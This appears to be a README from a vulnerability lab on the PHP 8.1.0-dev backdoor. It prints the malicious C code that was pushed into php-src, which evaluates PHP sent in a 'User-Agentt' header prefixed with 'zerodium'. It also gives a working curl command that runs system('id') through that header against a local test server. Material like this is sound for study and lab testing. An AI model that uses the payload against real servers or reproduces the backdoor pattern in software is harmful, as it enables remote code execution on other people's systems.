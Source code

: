 # PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution

## Requirements

 - The server needs to run on a specific backdoored version of PHP (PHP-8.1.0-dev)

## Introduction

A compromised git account pushed code to the PHP source repository introducing a backdoor in commit [c730aa26bd52829a49f2ad284b181b7e82a68d7d](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d):

```c
{
	zval zoh;
	php_output_handler *h;
	zval *enc;

	if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
		(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
		convert_to_string(enc);
		if (strstr(Z_STRVAL_P(enc), "zerodium")) {
			zend_try {
				zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
			} zend_end_try();
		}
	}
```

This code evaluates a string contained in the `User-Agentt` header if this string starts with `zerodium`.

## Exploitation

You can execute PHP code (prefixed by the string `zerodium`) on the remote machine through the `User-Agentt` header:

```sh
curl -H 'Accept-Encoding: deflate' -H "User-Agentt: zerodiumsystem('id');" 'http://127.0.0.1:10080/dummy.php'
```

## References
 - https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
 - https://news-web.php.net/php.internals/113838
